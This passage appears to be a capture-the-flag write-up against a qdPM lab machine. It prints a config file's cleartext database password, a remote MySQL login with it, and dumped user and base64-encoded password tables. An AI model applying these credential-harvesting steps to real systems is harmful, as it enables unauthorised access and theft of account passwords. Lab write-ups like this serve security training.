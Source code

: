 ```
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true
		
```

We logg in with 

cds@cds:~$ sudo mysql -uqdpmadmin -h 192.168.100.49 -p 
Enter password:  UcVQCMQk2STVeS6J
```
cds@cds:~$ sudo mysql -uqdpmadmin -h 192.168.100.49 -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

We have this users on the database

```
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
-------------------------------------------------------------
```

PASSWORDS ON BASE 64
```
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
```
